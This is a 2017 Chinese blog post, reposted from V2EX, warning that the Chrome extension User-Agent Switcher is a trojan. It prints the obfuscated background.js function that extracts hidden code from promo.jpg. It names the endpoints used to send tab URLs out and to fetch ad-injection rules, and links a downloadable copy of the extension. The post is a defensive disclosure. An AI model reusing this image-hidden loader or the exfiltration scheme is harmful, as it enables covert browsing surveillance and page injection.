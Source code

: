 ```yaml
---
title: 懵逼！Chrome 的插件 User-Agent Switcher 是个木马
author: Feng
type: post
published: 2017-09-29T07:25:42+00:00
url: /my/382.html
hera_post_view:
  - 3
categories:
  - 生活随笔
tags:
  - 随笔

---
```

<img decoding="async" src="https://cdn.uu126.cn/201709/user-agent-switcher-fore-google-chrome1.jpg" alt="user-agent-switcher-fore-google-chrome1" title="user-agent-switcher-fore-google-chrome1" />

Chrome 商店搜索 User-Agent Switcher,排第一的这个插件(45 万用户),是一个木马&#8230;  
[官方地址][1]  
无法访问？  
这里有一个压缩包：链接: [<https://pan.baidu.com/s/1nvBRemH>][2] 密码: 4inq

<img decoding="async" src="https://cdn.uu126.cn/201709/user-agent-switcher-fore-google-chrome.jpg" alt="user-agent-switcher-fore-google-chrome" title="user-agent-switcher-fore-google-chrome" /> 

为了绕过 chrome 的审核策略,他把恶意代码隐藏在了 `promo.jpg` 里， `background.js` 的第 80 行,从这个图片里解密出恶意代码并执行

    t.prototype.Vh = function(t, e) {
    if ("" === '../promo.jpg') return "";
    void 0 === t && (t = '../promo.jpg'), t.length && (t = r.Wk(t)), e = e || {};
    var n = this.ET,
    i = e.mp || n.mp,
    o = e.Tv || n.Tv,
    h = e.At || n.At,
    a = r.Yb(Math.pow(2, i)),
    f = (e.WC || n.WC, e.TY || n.TY),
    u = document.createElement("canvas"),
    p = u.getContext("2d");
    if (u.style.display = "none", u.width = e.width || t.width, u.height = e.width || t.height, 0 === u.width || 0 === u.height) return "";
    e.height && e.width ? p.drawImage(t, 0, 0, e.width, e.height) : p.drawImage(t, 0, 0);
    var c = p.getImageData(0, 0, u.width, u.height),
    d = c.data,
    g = [];
    if (c.data.every(function(t) {
    return 0 === t
    })) return "";
    var m, s;
    if (1 === o)
    for (m = 3, s = !1; !s && m < d.length && !s; m += 4) s = f(d, m, o), s || g.push(d[m] - (255 - a + 1));
    var v = "",
    w = 0,
    y = 0,
    l = Math.pow(2, h) - 1;
    for (m = 0; m < g.length; m += 1) w += g[m] = h && (v += String.fromCharCode(w & l), y %= h, w = g[m] >> i - y);
    return v.length < 13 ? "" : (0 !== w && (v += String.fromCharCode(w & l)), v)
    }

会把你打开的每个 tab 的 url 等信息加密发送到 [<https://uaswitcher.org/logic/page/data>][3]  
另外还会从 [<http://api.data-monitor.info/api/bhrule?sub=116>][4] 获取推广链接的规则,打开符合规则的网站时,会在页面插入广告甚至恶意代码.  
根据 threatbook 上的信息( [<https://x.threatbook.cn/domain/api.data-monitor.info>][5] ),我估计下面的几个插件都是这个作者的作品..

[<https://chrome.google.com/webstore/detail/nenhancer/ijanohecbcpdgnpiabdfehfjgcapepbm>][6]

[<https://chrome.google.com/webstore/detail/allow-copy/abidndjnodakeaicodfpgcnlkpppapah>][7]

[<https://chrome.google.com/webstore/detail/%D1%81%D0%BA%D0%B0%D1%87%D0%B0%D1%82%D1%8C-%D0%BC%D1%83%D0%B7%D1%8B%D0%BA%D1%83-%D0%B2%D0%BA%D0%BE%D0%BD%D1%82%D0%B0%D0%BA%D1%82%D0%B5/hanjiajgnonaobdlklncdjdmpbomlhoa>][8]

[<https://chrome.google.com/webstore/detail/aliexpress-radar/pfjibkklgpfcfdlhijfglamdnkjnpdeg>][9]

有在用这个扩展的亲们，赶紧起床删了吧！

本文转载自：[<https://www.v2ex.com/t/389340>][10]

 [1]: https://chrome.google.com/webstore/detail/user-agent-switcher-for-g/ffhkkpnppgnfaobgihpdblnhmmbodake
 [2]: https://pan.baidu.com/s/1nvBRemH
 [3]: https://uaswitcher.org/logic/page/data
 [4]: http://api.data-monitor.info/api/bhrule?sub=116
 [5]: https://x.threatbook.cn/domain/api.data-monitor.info
 [6]: https://chrome.google.com/webstore/detail/nenhancer/ijanohecbcpdgnpiabdfehfjgcapepbm
 [7]: https://chrome.google.com/webstore/detail/allow-copy/abidndjnodakeaicodfpgcnlkpppapah
 [8]: https://chrome.google.com/webstore/detail/%D1%81%D0%BA%D0%B0%D1%87%D0%B0%D1%82%D1%8C-%D0%BC%D1%83%D0%B7%D1%8B%D0%BA%D1%83-%D0%B2%D0%BA%D0%BE%D0%BD%D1%82%D0%B0%D0%BA%D1%82%D0%B5/hanjiajgnonaobdlklncdjdmpbomlhoa
 [9]: https://chrome.google.com/webstore/detail/aliexpress-radar/pfjibkklgpfcfdlhijfglamdnkjnpdeg
 [10]: https://www.v2ex.com/t/389340
